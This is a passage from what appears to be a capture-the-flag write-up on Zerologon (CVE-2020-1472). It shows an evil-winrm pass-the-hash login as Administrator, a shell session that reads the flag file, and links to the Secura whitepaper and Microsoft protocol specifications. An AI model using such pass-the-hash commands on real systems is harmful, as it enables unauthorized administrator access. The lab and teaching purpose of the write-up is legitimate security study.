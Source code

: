 ```text
# evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i <IP target>       

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> dir
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/20/2020   2:02 PM             24 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

## Resources

* [Secura Zerologon CVE-2020-1472 Whitepaper](https://www.secura.com/blog/zero-logon)
* [Microsoft Open Specifications 3.1.4.1 Session-Key Negotiation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/7b9e31d1-670e-4fc5-ad54-9ffff50755f9)
* [Microsoft Open Specifications 3.5.4.4.2 NetrServerAuthenticate3 (Opnum 26)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9)